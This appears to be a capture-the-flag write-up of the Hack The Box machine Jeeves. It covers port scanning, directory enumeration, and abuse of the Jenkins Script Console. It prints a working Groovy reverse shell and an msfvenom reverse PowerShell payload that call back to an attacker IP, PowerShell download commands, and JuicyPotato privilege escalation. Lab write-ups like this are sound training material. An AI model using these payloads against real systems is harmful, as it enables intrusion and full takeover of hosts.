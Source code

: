# [Jeeves](https://app.hackthebox.com/machines/Jeeves)

```bash
nmap -p- --min-rate 10000 10.10.10.63 -Pn 
```

![Alt text](img/image.png)


I see that ports(80,135,445,50000) are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,135,445,50000 10.10.10.63 -Pn
```

![Alt text](img/image-1.png)

While I access to port (50000), I don't see anything, that's why I need to do Directory Enumeration.

```bash
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x php,txt,js
```


![Alt text](img/image-2.png)


While I browse this page, I see that it is Jenkins server.

Go to 'Manage Jenkins' , then 'Script Console'.


Here, we write our reverse shell script which I take from [here](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy)


```bash
String host="10.10.16.8";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![Alt text](img/image-3.png)


I got reverse shell.

![Alt text](img/image-4.png)


user.txt

![Alt text](img/image-5.png)



I just look at my user privileges via `whoami /priv` command.

![Alt text](img/image-6.png)

The **SeImpersonatePrivilege** is enabled which could allow us to escalate our privileges.


Let's download this exploit from [here](https://github.com/ohpe/juicy-potato/releases)

Then, create our malicious .bat file which is reverse shell.

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.16.8 lport=1338 > shell.bat
```

![Alt text](img/image-7.png)


Now, it's time to open http server to upload this files into target's machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```

![Alt text](img/image-9.png)

To download scripts from Windows machine.
```bash
powershell -command Invoke-WebRequest -Uri http://10.10.16.8:8080/JuicyPotato.exe -Outfile C:\Users\kohsuke\Desktop\JuicyPotato.exe


powershell -command Invoke-WebRequest -Uri http://10.10.16.8:8080/shell.bat -Outfile C:\Users\kohsuke\Desktop\shell.bat

```

![Alt text](img/image-8.png)


Let's use exploit due to our needs.

```bash
JuicyPotato.exe -p shell.bat -l 1338 -t *
```


![Alt text](img/image-10.png)


I got administrative reverse shell.

![Alt text](img/image-11.png)


To find root.txt , I have a lot of problems.

![Alt text](img/image-12.png)


That's why, I listed all files on this directory means (ls -la command), that's `dir /r` on Windows.

Then to read this hidden file I use `more` command.

![Alt text](img/image-13.png)